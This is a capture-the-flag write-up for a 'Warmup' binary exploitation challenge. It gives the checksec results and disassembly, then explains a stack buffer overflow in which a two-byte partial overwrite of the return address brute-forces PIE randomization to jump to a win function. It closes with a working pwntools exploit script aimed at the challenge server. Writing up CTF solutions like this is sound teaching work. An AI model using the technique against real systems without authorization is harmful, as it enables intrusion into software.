 # Warmup

```
score: 50
solved: xx
difficulty: easy
tags: pwn, bof
```

# Challenge

Checksec's result:
<pre>Canary                        : <font color="#CC0000"><b>✘ </b></font>
NX                            : <font color="#4E9A06"><b>✓ </b></font>
PIE                           : <font color="#4E9A06"><b>✓ </b></font>
Fortify                       : <font color="#CC0000"><b>✘ </b></font>
RelRO                         : <font color="#4E9A06">Full</font>
</pre>

Having `main` function:
<pre>   <font color="#3465A4">0x00000000000011ce</font> &lt;+0&gt;:	endbr64 
   <font color="#3465A4">0x00000000000011d2</font> &lt;+4&gt;:	push   rbp
   <font color="#3465A4">0x00000000000011d3</font> &lt;+5&gt;:	mov    rbp,rsp
   <font color="#3465A4">0x00000000000011d6</font> &lt;+8&gt;:	mov    edi,0x3c
   <font color="#3465A4">0x00000000000011db</font> &lt;+13&gt;:	call   <font color="#3465A4">0x1090</font> &lt;<font color="#C4A000">alarm@plt</font>&gt;
   <font color="#3465A4">0x00000000000011e0</font> &lt;+18&gt;:	mov    rax,QWORD PTR [rip+0x2e29]        # <font color="#3465A4">0x4010</font> &lt;<font color="#C4A000">stdout@@GLIBC_2.2.5</font>&gt;
   <font color="#3465A4">0x00000000000011e7</font> &lt;+25&gt;:	mov    esi,0x0
   <font color="#3465A4">0x00000000000011ec</font> &lt;+30&gt;:	mov    rdi,rax
   <font color="#3465A4">0x00000000000011ef</font> &lt;+33&gt;:	call   <font color="#3465A4">0x1080</font> &lt;<font color="#C4A000">setbuf@plt</font>&gt;
   <font color="#3465A4">0x00000000000011f4</font> &lt;+38&gt;:	mov    rax,QWORD PTR [rip+0x2e25]        # <font color="#3465A4">0x4020</font> &lt;<font color="#C4A000">stdin@@GLIBC_2.2.5</font>&gt;
   <font color="#3465A4">0x00000000000011fb</font> &lt;+45&gt;:	mov    esi,0x0
   <font color="#3465A4">0x0000000000001200</font> &lt;+50&gt;:	mov    rdi,rax
   <font color="#3465A4">0x0000000000001203</font> &lt;+53&gt;:	call   <font color="#3465A4">0x1080</font> &lt;<font color="#C4A000">setbuf@plt</font>&gt;
   <font color="#3465A4">0x0000000000001208</font> &lt;+58&gt;:	mov    eax,0x0
   <font color="#3465A4">0x000000000000120d</font> &lt;+63&gt;:	call   <font color="#3465A4">0x11a9</font> &lt;<font color="#C4A000">vuln</font>&gt;
   <font color="#3465A4">0x0000000000001212</font> &lt;+68&gt;:	mov    eax,0x0
   <font color="#3465A4">0x0000000000001217</font> &lt;+73&gt;:	pop    rbp
   <font color="#3465A4">0x0000000000001218</font> &lt;+74&gt;:	ret   </pre>

and `vuln` function:
<pre>   <font color="#3465A4">0x00000000000011a9</font> &lt;+0&gt;:	endbr64 
   <font color="#3465A4">0x00000000000011ad</font> &lt;+4&gt;:	push   rbp
   <font color="#3465A4">0x00000000000011ae</font> &lt;+5&gt;:	mov    rbp,rsp
   <font color="#3465A4">0x00000000000011b1</font> &lt;+8&gt;:	sub    rsp,0x10
   <font color="#3465A4">0x00000000000011b5</font> &lt;+12&gt;:	lea    rax,[rbp-0x10]
   <font color="#3465A4">0x00000000000011b9</font> &lt;+16&gt;:	mov    edx,0x100
   <font color="#3465A4">0x00000000000011be</font> &lt;+21&gt;:	mov    rsi,rax
   <font color="#3465A4">0x00000000000011c1</font> &lt;+24&gt;:	mov    edi,0x0
   <font color="#3465A4">0x00000000000011c6</font> &lt;+29&gt;:	call   <font color="#3465A4">0x10a0</font> &lt;<font color="#C4A000">read@plt</font>&gt;
   <font color="#3465A4">0x00000000000011cb</font> &lt;+34&gt;:	nop
   <font color="#3465A4">0x00000000000011cc</font> &lt;+35&gt;:	leave  
   <font color="#3465A4">0x00000000000011cd</font> &lt;+36&gt;:	ret  </pre>

# Got the flag

Review the functions in bin:
<pre><font color="#CC0000"><b>gef➤  </b></font>info functions 
All defined functions:

Non-debugging symbols:
<font color="#3465A4">0x0000000000001000</font>  <font color="#C4A000">_init</font>
<font color="#3465A4">0x0000000000001070</font>  <font color="#C4A000">__cxa_finalize@plt</font>
<font color="#3465A4">0x0000000000001080</font>  <font color="#C4A000">setbuf@plt</font>
<font color="#3465A4">0x0000000000001090</font>  <font color="#C4A000">alarm@plt</font>
<font color="#3465A4">0x00000000000010a0</font>  <font color="#C4A000">read@plt</font>
<font color="#3465A4">0x00000000000010b0</font>  <font color="#C4A000">execl@plt</font>
<font color="#3465A4">0x00000000000010c0</font>  <font color="#C4A000">_start</font>
<font color="#3465A4">0x00000000000010f0</font>  <font color="#C4A000">deregister_tm_clones</font>
<font color="#3465A4">0x0000000000001120</font>  <font color="#C4A000">register_tm_clones</font>
<font color="#3465A4">0x0000000000001160</font>  <font color="#C4A000">__do_global_dtors_aux</font>
<font color="#3465A4">0x00000000000011a0</font>  <font color="#C4A000">frame_dummy</font>
<font color="#3465A4">0x00000000000011a9</font>  <font color="#C4A000">vuln</font>
<font color="#3465A4">0x00000000000011ce</font>  <font color="#C4A000">main</font>
<font color="#3465A4">0x0000000000001219</font>  <font color="#C4A000">win</font>
<font color="#3465A4">0x0000000000001250</font>  <font color="#C4A000">__libc_csu_init</font>
<font color="#3465A4">0x00000000000012c0</font>  <font color="#C4A000">__libc_csu_fini</font>
<font color="#3465A4">0x00000000000012c8</font>  <font color="#C4A000">_fini</font>
</pre>

Easy to detect a bof vulnerability in `vuln` function. We have `win` function, so our aim is override `return address` of `vuln` to `win`.

At here, `PIE` is enable so we can not override the whole address. The trick at here is just override as least as possible. We can see `PIE` is not generate 12 lowest bits in x64 CPU. It means the address base have format `0xaaaaaaaaaa000`. Therefore, we will try override 2 bytes (16 bits). Because haveing 4 bits randon remaining, we will try and try again until our 4 bits is matched.

# Exploit code

```py
from pwn import *
import time

elf = ELF("./chal")
# p = process(elf.path)
p = remote("warmup1.ctf.maplebacon.org",1337)

payload = b"A"*0x18
payload += b"\x19\x02"
p.send(payload)
time.sleep(0.5)
x = p.recv()
# x = p.poll(False)
# while x == -11:
while b"Segmentation fault" in x:
    p.close()
    # p = process(elf.path)
    p = remote("warmup1.ctf.maplebacon.org",1337)
    p.send(payload)
    time.sleep(0.5)
    x = p.recv()
print(x)
p.interactive()
```
